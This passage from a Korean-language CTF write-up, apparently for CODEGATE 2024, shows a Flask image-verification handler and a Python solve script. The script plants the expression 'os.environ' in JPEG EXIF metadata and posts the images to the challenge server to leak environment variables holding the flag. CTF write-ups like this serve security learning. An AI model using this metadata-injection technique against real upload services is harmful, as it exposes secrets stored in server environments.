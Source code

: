 ```py
                                if ")" in value:
                                    return jsonify({'success': 'Verified'})
                                description_contents = safe_eval(value)
                                items_dict = dict(description_contents)
                                return jsonify({'debug': f'{items_dict}' })
                except Exception as e:
                    print(e)
            else:
                return jsonify({'error': 'Unsupported file format'}), 400

            if flag == 1:
                return jsonify({'success': "This is an image"}), 200
            else:
                return jsonify({'success': "Verified"}), 200

        except Exception as e:
            return jsonify({'error': 'Error processing image'}), 500
```

위 코드를 보면 알겠지만, `/verify`의 조건을 만족시키기 위해서는 두 개의 이미지가 필요하며 `EXIF`에 `CODEGATE2024\x00`가 존재해야 한다. 그리고 `ImageDescription`에 `os.environ`을 호출하는 코드가 존재해야 한다.

따라서 아래의 코드를 통해 `flag`를 획득할 수 있다. ~~파이썬 너무 어려워요~~

```py
import piexif
import requests

from PIL import Image

cmd  = 'os.environ'

exif_dict = {
    "0th": {
        piexif.ImageIFD.ImageDescription: cmd
    },
    "Exif": {
        piexif.ExifIFD.UserComment: b"CODEGATE2024\x00"  + '{"key": "value"}'.encode('ascii'),
    }
}

exif_bytes = piexif.dump(exif_dict)

width, height = 10, 10

img1 = Image.new('RGB', (width, height),  (255, 255, 255))
img2 = Image.new('RGB', (width, height), (255, 245, 255))


img1.save('img1.jpeg', exif=exif_bytes)
img2.save('img2.jpeg', exif=exif_bytes)


r = requests.Session()

with open('img1.jpeg', 'rb') as file_a, open('img2.jpeg', 'rb') as file_b:
    files = {
        'file-a': file_a,
        'file-b': file_b
    }
    a = r.post('http://43.201.116.50:3456/upload', files=files)
    print(a.text)
    b = r.request('TRACE','http://43.201.116.50:3456/verify')
    print(b.text)
```